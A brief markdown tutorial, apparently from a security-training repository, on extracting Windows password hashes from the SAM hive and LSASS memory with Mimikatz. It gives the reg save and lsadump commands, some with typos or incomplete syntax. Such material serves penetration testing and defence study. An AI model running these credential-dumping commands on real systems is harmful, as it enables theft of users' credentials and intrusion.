


# Dumping user hashes using Mimikatz

## Introduction

Windows stores usernames and passwords in the Security Account Manager (SAM) database, and the Local Security Authority Subsystem Service (LSASS) process holds this sensitive information in memory. Particularly in Windows 7 and earlier versions, passwords stored in LSASS memory are susceptible to extraction in clear-text form. Mimikatz, a potent and versatile post-exploitation tool, is often employed by security professionals, penetration testers, and attackers to dump these credential hashes from LSASS.

## Step-by-Step Guide

### Dumping from the SAM database
```bash
C: > reg save HKLM\SAM SAM # saves SAM database
C: > reg save HKLM\SYSTEM SYTSTEM # saves SYSTEM database
C: > mimikatz.exe
mimikatz > lsadump::sam \sam:SAM # from SAM and SYTEM database
```


### Dumping from the LSASS process

```bash
mimikatz > lsadump::lsa /patch # or any other mimikatz commands to dump ntlm hashes
```


## Video Demonstration

[](https://www.youtube.com/embed/4voh1h7lgrQ)

## Reference
https://github.com/gentilkiwi/mimikatz/